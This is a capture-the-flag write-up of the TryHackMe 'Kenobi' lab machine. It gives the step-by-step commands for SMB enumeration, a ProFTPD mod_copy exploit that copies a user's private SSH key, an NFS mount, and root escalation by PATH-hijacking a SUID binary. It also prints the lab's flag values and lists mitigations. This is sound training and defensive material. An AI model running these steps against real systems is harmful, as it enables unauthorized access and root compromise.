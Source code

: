 - Author: Pedro Daniel Gonçalves Antunes
- Date: 10 July 2025
- Target: 10.10.19.34
## **1. Introduction**

This report documents the full process of compromising the "Kenobi" machine from the TryHackMe platform. The methodology involved initial network enumeration to identify open services, exploitation of a vulnerable network share and FTP service to gain an initial foothold, and privilege escalation to root by exploiting a misconfigured SUID binary on the system.
## **2. Initial Enumeration**
The first step was to perform a full port scan using `nmap` to identify all open services on the target machine. The `-sV` flag was used to probe for service versions.
```bash
nmap -sV 10.10.19.34 
```
![Resultado do Nmap](./images/01-nmap-scan.png)
The scan revealed **7 open ports**. The most promising services for initial enumeration were:
- **Port 21:** FTP (ProFTPD 1.3.5)
- **Port 111:** RPCbind
- **Port 445:** SMB (Samba smbd 4.3.11-Ubuntu)
## **3. Gaining an Initial Foothold**
Given the open SMB port, I proceeded to enumerate it for any accessible network shares using `nmap`'s scripting engine (NSE).
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.19.34
```
The script discovered **3 shares**, including one of particular interest named `anonymous`. I connected to this share using `smbclient`, providing no password.
![Smbclient shares](./images/02-smblcient-shares.png)
```bash
smbclient //10.10.19.34/anonymous
```
Inside the share, I found a file named `log.txt`. I downloaded it for further analysis using the `get` command within the `smbclient` prompt.
![Inside Share](./images/03-inside-share.png)
![Get File](./images/04-get-file.png)
![Inside file](./images/05-inside-file.png)
This log file contained two critical pieces of information:
1. The location of a private SSH key for a user named **Kenobi** (`/home/kenobi/.ssh/id_rsa`).
2. Details about the ProFTPD server software.
### 3.2. Exploiting ProFTPD

The `log.txt` file confirmed that ProFTPD was running on **port 21**. My initial `nmap` scan had already identified the version as **1.3.5**. A quick search with `searchsploit` revealed that this specific version is vulnerable.
![FTP Version](./images/06-ftp-version.png)
``` bash
searchsploit proftpd 1.3.5
```
![Searchsploit ](./images/07-searchsploit.png)
The search returned **3 main exploits**. The most relevant one is related to the `mod_copy` module, which allows an unauthenticated user to copy files on the server using the `SITE CPFR` (Copy From) and `SITE CPTO` (Copy To) commands.

The plan was clear: use this vulnerability to copy Kenobi's private SSH key from its protected location (`/home/kenobi/.ssh/id_rsa`) to a world-accessible directory. My earlier enumeration had shown that the `/var` directory was mountable via NFS (Network File System). Therefore, `/var/tmp` would be a perfect destination.

Using `netcat` to connect to the FTP port, I issued the commands to copy the key:
```bash
nc 10.10.19.34 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
![CPRF/CPTO](./images/08-CPFR-CPTO.png)
### 3.3. Accessing the Machine
With the private key now in `/var/tmp`, I mounted the NFS share to my local machine to retrieve it.
```bash
#Create a local directory for the mount
mkdir /mnt/kenobiNFS

#Mount the remote share
sudo mount 10.10.19.34:/var /mnt/kenobiNFS

#Copy the key to our current directory
cp /mnt/kenobiNFS/tmp/id_rsa .
```
![Mkdir](./images/09-mkdir.png)
![Mount](./images/10-mount.png)
![View mount](./images/11-view-mount.png)
![Cp id_rsa](./images/12-cp-id_rsa.png)
Finally, I set the correct permissions for the private key and used it to log in as the `kenobi` user via SSH.
```bash
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.19.34
```
![Login SSH](./images/13-login-ssh.png)
Success! I now had a user shell on the machine. The user flag was retrieved from `/home/kenobi/user.txt`.

**User Flag:** `d0b0f3f53b6caa532a83915e19224899`
## 4. Privilege Escalation to Root
The final step was to escalate privileges from `kenobi` to `root`. I started by searching for files with the SUID bit set, as these files run with the permissions of their owner (often root), which can be a common vector for privilege escalation.
```bash
find / -perm -u=s -type f 2>/dev/null
```
![Perms](./images/14-perms.png)
The list of SUID files showed a very unusual binary: `/usr/bin/menu`. This is not a standard Linux binary and immediately became my primary target.

Executing the binary revealed it was a simple command-line menu with **3 options**.

I used the `strings` command to look for readable text within the binary, which can reveal its functionality.

The `strings` output showed that the binary was calling other system commands like `curl` and `uname` without specifying their full path (e.g., `/bin/curl`). This is a classic **Path Hijacking** vulnerability. Since the binary runs as root, if I can make it execute my own malicious `curl` file instead of the real one, my file will also run as root.

I executed the following steps to exploit this:

1. Navigate to a world-writable directory like `/tmp`.
2. Create a new file named `curl`.
3. Write `#!/bin/bash\n/bin/sh` into the file, which tells the system to execute a shell.
4. Make the file executable with `chmod +x curl`.
5. Prepend the `/tmp` directory to the system's `PATH` variable. This forces the system to look in `/tmp` for binaries first.
6. Run the `/usr/bin/menu` binary and select an option that calls `curl`.
![Create curl](./images/15-create-curl.png)
![Enter menu](./images/16-enter-menu.png)
![Root permission](./images/17-root-permision.png)

We select option 1 on the menu, and this successfully spawned a shell with `root` privileges. The root flag was retrieved from `/root/root.txt`.
![Root Flag](./images/18-root-flag.png)
**Root Flag:** `177b3cd8562289f37382721c28381f02`
## **5. Conclusion & Mitigations**

The Kenobi machine was compromised by chaining multiple vulnerabilities.

- **Initial Access:** An outdated version of ProFTPD (1.3.5) allowed an unauthenticated attacker to copy files on the system, leading to the theft of a user's private SSH key.
- **Privilege Escalation:** A custom-developed SUID binary was vulnerable to Path Hijacking, allowing a low-privilege user to gain a root shell.

**Mitigation steps should include:**

1. **Patching Software:** Update ProFTPD to a version that is not vulnerable to the `mod_copy` exploit.
2. **Principle of Least Privilege:** Avoid using the SUID bit on custom applications. If necessary, ensure the application code specifies the full path for any system commands it executes to prevent Path Hijacking.
3. **Network Security:** Restrict access to network shares like SMB and NFS. Anonymous and public shares should be disabled unless absolutely essential.
